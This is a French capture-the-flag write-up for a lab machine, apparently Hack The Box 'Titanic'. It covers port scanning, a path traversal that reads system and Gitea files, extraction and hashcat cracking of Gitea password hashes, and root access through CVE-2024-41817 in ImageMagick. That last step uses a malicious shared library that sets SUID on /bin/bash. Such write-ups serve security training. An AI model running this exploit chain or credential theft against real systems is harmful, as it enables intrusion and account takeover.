









## Résumé
User: Path traversal\
Root: Execution de code arbitraire via CVE-2024-41817(ImageMagick).

## Enumeration
A l'aide d'un scan nmap, nous pouvons identifier un service web sur le port 80 et SSH sur le port 22.


nmap -Pn -p 80,22 10.129.175.139 -v -A
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS


## Utilisateur
### Path traversal

En explorant `titanic.htb`, on remarque que si l'on soumet le formulaire de booking, un fichier contenant nos éléments de réservation au format JSON est téléchargé.\


$ cat 5a41afb2-469c-4d75-8faf-4c1b70d398be.json | jq .
{
  "name": "test",
  "email": "test@test.com",
  "phone": "test-01",
  "date": "2025-06-18",
  "cabin": "Deluxe"
}

Côté burp, le paramètre `ticket` via `/download` permet de spécifier le fichier à télécharger.\
\
L'absence de controle ou de validation sur ce paramètre nous permet de lire des fichiers sur la machine.\
Ce path traversal, nous permet de récupérer les informations suivantes:\
`/etc/passwd` nous indique l'existence de l'utilisateur `developer`.\
`/etc/hosts` nous permet de récupérer un nouveau sous-domaine, `dev`.
\

### Gitea
Pour l'instant, on ne peut pas aller plus loin, explorons `dev.titanic.htb`.\
On trouve une instance de [Gitea](https://about.gitea.com/), un outil de versionning auto-herbergé utilisant git.\
\
En explorant les repo accessibles publiquement, on trouve `docker-config`et `flask-app`.\
\
Dans le repo `docker-config`, on trouve des identifiants `MySQL` dans `/mysql/docker-compose.yml`.\
Le scan nmap n'a pas permis d'identifier un accès MySQL, on garde ces identifiants de côté.\
\
Toujours dans ce même repository, on trouve dans `/gitea/docker-compose.yml`, le chemin vers un volume.\
\
En utilisant ce chemin, le path traversal précédemment trouvé et la documentation de Gitea, on peut récupérer le fichier de configuration de Gitea.\
Après plusieurs tentatives, il se situe dans `/home/developer/gitea/data/gitea/conf/app.ini`.\
Dans ce fichier de conf, on trouve le chemin de la `BDD` Gitea.\
\
\
On passe par le site pour la récupérer.\
En explorant cette base de données avec `sqlite3`, on peut récupérer les hash de `developer` et `administrator`.\

$ sqlite3 gitea.db                                                                                                               
...
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0

Les hashs sont au format PBKDF2 et peuvent être convertis à l’aide de [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000) pour être compatibles avec Hashcat et ensuite casser le mot de passe du compte `developer`.

$ sqlite3 gitea.db 'select salt,passwd from user;' | ./gitea2hashcat.py
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=

$ hashcat -a 0 -m 10900 hash /usr/share/wordlists/rockyou.txt
...
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528


On l'utilise pour se connecter via SSH à la machine.

$ ssh developer@titanic.htb
...
developer@titanic:~$ ls
gitea  mysql  user.txt
developer@titanic:~$ cat user.txt
e85d89a008cff72094f40882eb2f7d9b


## Root
### CVE-2024-41817(ImageMagick)
Une fois connecté en SSH, on remarque le script `identify_images.sh` dans le dossier `/opt/scripts/`.

developer@titanic:/opt$ tree .
.
├── app
│   ├── app.py
│   ├── static
│   │   ├── assets
│   │   │   └── images
│   │   │       ├── entertainment.jpg
│   │   │       ├── exquisite-dining.jpg
│   │   │       ├── favicon.ico
│   │   │       ├── home.jpg
│   │   │       ├── luxury-cabins.jpg
│   │   │       └── metadata.log
│   │   └── styles.css
│   ├── templates
│   │   └── index.html
│   └── tickets
├── containerd  [error opening dir]
└── scripts
    └── identify_images.sh

8 directories, 10 files

developer@titanic:/opt$ cat scripts/identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log

Cette commande va identifier le format et caractéristiques des fichiers finissant par `.jpg` dans `/opt/app/static/assets/images/` et les stocker dans `/opt/app/static/assets/metadata.log`.\
On remarque que le timestamp de metadata.log est actualisé chaque minute, le script appartient à root donc susceptible d'être lancé par une tâche cron.\
Les commandes `truncate`, `find`, `xargs` ne sont pas exploitables ici. `Imagemagick` étant un outil utilisé dans des CTF dans ses versions vulnérables, on cherche des CVE associées à sa version, la `7.1.1-35`.

developer@titanic:~$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
...


On trouve [cet advisory sur Github](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) concernant la `CVE-2024-41817` permettant une execution de code arbitraire sur les versions <= à 7.1.1-35.\
Pour obtenir de l'éxécution de code en tant que root, on va adapter le POC mentionné en modifiant id pour set le SUID sur /bin/bash.

developer@titanic:/tmp$ cat libxcb 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod +s /bin/bash");
    exit(0);
}

developer@titanic:/tmp$ gcc -x c -shared libxcb.c -fPIC -o ./libxcb.so.1
developer@titanic:/tmp$ mv libxcb.so.1 /opt/app/static/assets/images/
developer@titanic:/tmp$ ls -ld /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
developer@titanic:/tmp$ bash -p
bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) egid=0(root) groups=0(root),1000(developer)
bash-5.1# ls /root
cleanup.sh  images  revert.sh  root.txt  snap


## Ressources
> [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000)\
> [Advisory Github for CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)